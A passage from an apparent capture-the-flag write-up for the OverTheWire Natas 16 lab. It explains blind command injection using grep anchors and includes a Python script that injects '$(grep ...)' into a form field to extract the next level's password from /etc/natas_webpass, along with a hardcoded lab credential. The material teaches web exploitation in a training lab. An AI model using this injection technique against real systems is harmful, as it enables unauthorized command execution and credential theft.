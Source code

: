Let me explain, we can use `^` in grep to grep for words beginning with the letter we specify.

![](images/Pasted image 20210318134030.png)
 
This first shows all `s` in the word and prints it, but the second shows all the words with `s` at the beginning. We know that 3 is in the password but not at the start so this will not print the word.

![](images/Pasted image 20210318134146.png)
 
Meaning that is this is concatanated to the `haircuts` word in the dictionary it will print out haircuts because nothing was concatanated to end of it. But if we find the correct letter `s` it will concatanate the whole password to the word haircuts and will not show any output. This reminded me alot about the Boolean blind sql injection challenge.
 
![](images/Pasted image 20210318134404.png)
 
This first one printed the word haircuts so we know it does not start with `3` (False) and the second did not meaning it starts with `s` (True).
 
For the challenge lets find a word. i used `crosswords`

![](images/Pasted image 20210318134525.png)
 
Now i worte a simple python script to extract the password.
 
```py
import requests
from string import ascii_letters, digits

letters=ascii_letters + digits

url = "http://natas16.natas.labs.overthewire.org/"
headers={
	"Authorization":"Basic bmF0YXMxNjpXYUlIRWFjajYzd25OSUJST0hlcWkzcDl0MG01bmhtaA=="
}

password = ""

for i in range(32):
	for char in letters:
		data = {
			"needle":"crosswords$(grep ^"+password+char+" /etc/natas_webpass/natas17)"
		}

		r = requests.post(url, data, headers=headers)
		if "crosswords" not in r.text:
			password+=char
			print(password)
			break

print("Natas17 password: " + password)
```
 